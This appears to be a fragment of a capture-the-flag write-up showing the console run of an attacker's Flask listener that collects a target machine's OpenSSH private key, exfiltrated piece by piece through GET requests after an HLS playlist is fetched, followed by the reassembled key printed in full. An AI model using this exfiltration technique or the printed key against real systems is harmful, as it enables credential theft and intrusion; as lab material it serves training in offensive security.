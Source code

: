 ```console
$ python3 extract_file.py 10.10.17.44 c0b9db4c8e4bbb24d59a3aaffa8c8b83
 * Serving Flask app 'extract_file' (lazy loading)
 * Environment: production
   WARNING: This is a development server. Do not use it in a production deployment.
   Use a production WSGI server instead.
 * Debug mode: on
 * Running on all addresses (0.0.0.0)
   WARNING: This is a development server. Do not use it in a production deployment.
 * Running on http://0.0.0.0:80 (Press CTRL+C to quit)
 * Restarting with stat
 * Debugger is active!
 * Debugger PIN: XXX-XXX-XXX
10.10.11.157 - - [] "GET /header.m3u8 HTTP/1.1" 200 -
10.10.11.157 - - [] "GET /header.m3u8 HTTP/1.1" 200 -
10.10.11.157 - - [] "GET /?d=b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW HTTP/1.1" 200 -  
10.10.11.157 - - [] "GET /header.m3u8 HTTP/1.1" 200 -
10.10.11.157 - - [] "GET /header.m3u8 HTTP/1.1" 200 -
10.10.11.157 - - [] "GET /header.m3u8 HTTP/1.1" 200 -
10.10.11.157 - - [] "GET /?d=QyNTUxOQAAACAvdFWzL7vVSn9cH6fgB3Sgtt2OG4XRGYh5ugf8FLAYDAAAAJjebJ3U3myd HTTP/1.1" 200 -
10.10.11.157 - - [] "GET /header.m3u8 HTTP/1.1" 200 -
10.10.11.157 - - [] "GET /header.m3u8 HTTP/1.1" 200 -
10.10.11.157 - - [] "GET /header.m3u8 HTTP/1.1" 200 -
10.10.11.157 - - [] "GET /?d=1AAAAAtzc2gtZWQyNTUxOQAAACAvdFWzL7vVSn9cH6fgB3Sgtt2OG4XRGYh5ugf8FLAYDA HTTP/1.1" 200 -
10.10.11.157 - - [] "GET /header.m3u8 HTTP/1.1" 200 -
10.10.11.157 - - [] "GET /header.m3u8 HTTP/1.1" 200 -
10.10.11.157 - - [] "GET /header.m3u8 HTTP/1.1" 200 -
10.10.11.157 - - [] "GET /?d=AAAEDzdpSxHTz6JXGQhbQsRsDbZoJ+8d3FI5MZ1SJ4NGmdYC90VbMvu9VKf1wfp+AHdKC2 HTTP/1.1" 200 -
10.10.11.157 - - [] "GET /header.m3u8 HTTP/1.1" 200 -
10.10.11.157 - - [] "GET /header.m3u8 HTTP/1.1" 200 -
10.10.11.157 - - [] "GET /header.m3u8 HTTP/1.1" 200 -
10.10.11.157 - - [] "GET /?d=3Y4bhdEZiHm6B/wUsBgMAAAADnVzZXJAb3ZlcmdyYXBoAQIDBAUGBw== HTTP/1.1" 200 -
10.10.11.157 - - [] "GET /header.m3u8 HTTP/1.1" 200 -
10.10.11.157 - - [] "GET /header.m3u8 HTTP/1.1" 200 -
10.10.11.157 - - [] "GET /header.m3u8 HTTP/1.1" 200 -
10.10.11.157 - - [] code 400, message Bad request syntax ('GET /?d=-----END OPENSSH PRIVATE KEY----- HTTP/1.1')
10.10.11.157 - - [] "GET /?d=-----END OPENSSH PRIVATE KEY----- HTTP/1.1" HTTPStatus.BAD_REQUEST -
^C

$ cat id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACAvdFWzL7vVSn9cH6fgB3Sgtt2OG4XRGYh5ugf8FLAYDAAAAJjebJ3U3myd
1AAAAAtzc2gtZWQyNTUxOQAAACAvdFWzL7vVSn9cH6fgB3Sgtt2OG4XRGYh5ugf8FLAYDA
AAAEDzdpSxHTz6JXGQhbQsRsDbZoJ+8d3FI5MZ1SJ4NGmdYC90VbMvu9VKf1wfp+AHdKC2
3Y4bhdEZiHm6B/wUsBgMAAAADnVzZXJAb3ZlcmdyYXBoAQIDBAUGBw==
-----END OPENSSH PRIVATE KEY-----
```
